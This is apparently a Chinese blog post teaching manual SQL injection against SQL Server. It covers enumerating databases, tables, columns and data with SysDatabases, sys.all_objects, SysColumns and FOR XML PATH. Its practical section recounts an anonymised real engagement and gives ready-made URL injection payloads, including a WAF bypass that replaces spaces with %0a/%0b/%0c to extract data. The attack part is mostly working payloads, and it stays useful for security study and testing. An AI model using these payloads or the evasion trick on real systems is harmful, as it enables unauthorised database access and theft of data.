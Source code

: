 ```yaml
---
layout: post
title:  "SQL-Server-SQL-Inject"
---
```

---
## 背景
某次xx，遇到了一处SQL Server 的注入点，由于平时碰到的SQL Server数据库比较少，所以本文将详细讲解SQL Server的手工注入及其技巧。

---

## 思路
一般SQL注入都是先查库名再查表名最后查字段，查到字段之后就可以查到里面的数据了。
那么我们先查第一个库名:
```sql
SELECT top 1 Name FROM Master..SysDatabases
```
返回
<code>master</code>

这里返回的第一个数据库master是系统库，SQL Server总共有五个系统数据库，其说明如下:   

| 系统数据库    | 说明|
|:----------|:---------------|
|master    |记录SQL Server 系统的所有系统级信息的数据库|
|msdb|SQL Server 代理用来安排警报和作业以及记录操作员信息的数据库。 msdb 还包含历史记录表，例如备份和还原历史记录表|
|model|在SQL Server 实例上为所有数据库创建的模板。|
|Resource|包含 SQL Server 2005 或更高版本附带的所有系统对象副本的只读数据库|
|tempdb|用于保存临时或中间结果集的工作空间。 每次启动 SQL Server 实例时都会重新创建此数据库。 服务器实例关闭时，将永久删除 tempdb 中的所有数据。|   

摘自
https://docs.microsoft.com/zh-cn/previous-versions/sql/sql-server-2012/ms190190(v=sql.110)


那么我们继续查第二个库，在SQL Server中跟MYSQL不同，如果是在MYSQL中我们可以用 limit 去查，在SQL Server中需要加 not in ('库名1','库名2',.....)去排除里面的集合

第二个库:
```sql
SELECT top 1 Name FROM Master..SysDatabases where name not in ('master')
```
返回
```sql
model
```
那么以此类推，我们就可以得到所有库名。
但是如果后面的集合越来越大，这样去查并不是最有效率的，虽然说查库名可能没有感觉，但如果是表名呢？ 这样查到后面的集合无疑是越来越大，当然，我们在数据库中可以更改 top 后面的数值去查询多条:
```sql
SELECT top 5 Name FROM Master..SysDatabases
```
返回:

||Name|  
|---|---|  
|1|master|  
|2|tempdb|  
|3|model|  
|4|msdb|  
|5|xxx|  

实战的情况往往是不行的，因为用 top 去查返回的会是多行数据，而一般的注入点返回的只是单行，用这种方法返回的多个数据无法显示在单行，所以我们不能用这种方法去查。
在参考了倾旋的文章:
https://payloads.online/archivers/2020-03-02/3#stuff%E4%B8%8Exml-path

还有国外的一篇文章:
https://www.sqlshack.com/for-xml-path-clause-in-sql-server/

发现了可以用 FOR XML PATH将SQL语句返回的多行数据合并成单行  
关于FOR XML PATH的文档：
https://docs.microsoft.com/zh-cn/sql/relational-databases/xml/for-xml-sql-server?view=sql-server-ver15  

>SELECT 查询将结果作为行集返回。 （可选操作）您可以通过在 SQL 查询中指定 FOR XML 子句，从而将该查询的正式结果作为 XML 来检索。 FOR XML 子句可以用在顶级查询和子查询中。 顶级 FOR XML 子句只能用在 SELECT 语句中。 而在子查询中，FOR XML 可以用在 INSERT、UPDATE 和 DELETE 语句中。 FOR XML 还可以用在赋值语句中。  

其中FOR XML有四种模式分别为
- RAW
- AUTO
- EXPLICIT
- PATH

这里我们可以用较为简单的PATH模式
`SELECT  Name from Master..SysDatabases  FOR  XML PATH`
返回
```sql
<row><Name>master</Name></row><row><Name>tempdb</Name></row><row><Name>model</Name></row><row><Name>msdb</Name></row>...
```

我们发现这里返回的数据变成了单行，现在我们要去掉row标签
```sql
SELECT  Name from Master..SysDatabases  FOR  XML PATH('')
```
返回
```sql
<Name>master</Name><Name>tempdb</Name><Name>model</Name>....
```
虽然说已经返回单行数据，但是有很多标签看着还是不舒服，参考了倾旋的方法，用 '，' 进行拼接，于是我们可以:
```sql
SELECT name+',' FROM(SELECT name from Master..SysDatabases) a  FOR  XML PATH('')
```
返回
```sql
master,tempdb,model,msdb,...
```
这样会更方便查看。
关于STUFF函数：
https://docs.microsoft.com/zh-cn/sql/t-sql/functions/stuff-transact-sql?view=sql-server-ver15

也可以通过STUFF函数进行拼接
```sql
SELECT STUFF((SELECT name+',' FROM(SELECT name from Master..SysDatabases) a  FOR  XML PATH('') ), 1,0, '')
```
返回和之前的是一样的，于是我在实测中便不采用这种方法。

---
## 实战

手工发现注入点,单引号报错:
```html
xxx.com?abc=1'
```

查版本：
```html
xxx.com?abc=a' and 1=(select @@version) and '1'='1
```
爆了版本的错误

于是接着注库名
```html
xxx.com?abc=a' and 1=(SELECT name+',' FROM(SELECT name from Master..SysDatabases)a FOR  XML PATH('')) and '1'='1
```
然后被waf给拦截了..
SQL Server数据库不像MYSQL有內联注释可以绕过很多软waf，所以考虑将payload变形，首先想到的是将特殊符号(单引号)进行urlencode，结果发现还是被拦截了，接着考虑将payload进行base64编码，结果发现这个注入点传递到数据库不支持base64编码。最后我将空格换成%0a,%0b，%0c等，成功绕过。
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%0aMaster..SysDatabases)%0a%0aFOR%0a%0aXML%0aPATH(%27%27))a%0aand%0a%271%27=%271
```
成功返回库名
接着开始注表名
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%0axxx.sys.all_objects%0awhere%0atype=%27U%27)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
```
成功返回表名

注字段名的语句，table_name指的是表名
```html
select name+',' from (SELECT Name FROM SysColumns WHERE id=Object_Id('table_name'))a for xml path('')
```
那么运用到实战:
```html
xxx.com?abc=a%27%0aand%0a1=(select%0aname%2b%27,%27%0afrom%0a(SELECT%0aName%0aFROM%0aSysColumns%0aWHERE%0aid=Object_Id(%27table_name%27))a%0afor%0axml%0apath(%27%27))%0aand%0a%271%27=%271
```


接着注字段的值
```html
SELECT column_name+',' FROM(SELECT column_name from dbo.table_name)a FOR  XML PATH('')
```
这里column_name指的是字段名,table_name指的是表名   <br>
运用到实战
```html
xxx.com?abc=a%27%0aand%0a1=(SELECT%0atop%0a5%0acolumn_name%2b%27,%27%0aFROM(SELECT%0acolumn_name%0afrom%0adbo.table_name)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
```
成功注出前五条数据   <br>


---
